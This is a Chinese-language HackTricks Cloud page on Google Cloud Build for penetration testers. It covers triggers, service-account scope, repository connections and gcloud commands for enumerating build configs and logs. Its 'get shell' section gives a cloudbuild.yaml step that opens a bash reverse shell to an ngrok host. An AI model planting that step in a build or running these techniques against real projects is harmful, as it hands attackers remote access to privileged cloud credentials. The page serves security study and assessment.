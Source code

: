 # GCP - Cloud Build Enum

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，支持多种编程语言。它允许开发人员**自动构建、测试和部署代码**，同时提供灵活性来定制构建步骤和工作流程。

每个Cloud Build触发器**与Cloud存储库相关联，或直接连接到外部存储库**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到从这里或Cloud存储库中窃取Github/Bitbucket令牌的方法，因为当存储库被下载时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而Github不是由客户端访问的。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收PR的分支
- **手动调用**
- **Pub/Sub消息**：指定主题
- **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有3个选项：

- 一个yaml/json，**指定要执行的命令**。通常是：`/cloudbuild.yaml`
- 只能在Web控制台和cli中“内联”指定一个
- 最常见的选项
- 适用于未经身份验证的访问
- 一个**Dockerfile**用于构建
- 一个**Buildpack**用于构建

### SA权限

**服务帐号具有`cloud-platform`范围**，因此可以**使用所有特权**。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不会授予任何权限，但很容易给予一些权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 批准

可以配置Cloud Build以**要求批准构建执行**（默认情况下已禁用）。

### 连接和存储库

可以通过以下方式创建连接：

- **GitHub：**它将显示一个OAuth提示，请求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub企业版：**它将要求安装**GithubApp**。将创建一个来自GitHub企业版主机的**身份验证令牌**，并将其存储在此项目中作为**Secret Manager**的秘密。
- **GitLab / 企业版：**您需要提供API访问令牌和读API访问令牌，这将存储在**Secret Manager**中。

生成连接后，您可以使用它来**链接Github帐户具有访问权限的存储库**。

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，通过此方法连接的存储库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接存储库

这与**`连接`**不同。这允许以**不同**方式访问**Github或Bitbucket**存储库，但**不会生成连接对象，但会生成存储库对象（第一代）。**

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build将**生成新的存储空间以存储触发器的文件**。例如，在GCP提供的示例中发生了这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 获取 shell

创建了一个名为 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 的存储桶，用于存储要使用的`.tgz`文件。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
在Cloud Build中安装gcloud：

```bash
RUN apt-get update && apt-get install -y wget
RUN wget https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-sdk-333.0.0-linux-x86_64.tar.gz
RUN tar zxvf google-cloud-sdk-333.0.0-linux-x86_64.tar.gz
RUN ./google-cloud-sdk/install.sh
```
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 枚举

您可以在构建配置和日志中找到敏感信息。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 漏洞利用后期阶段

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
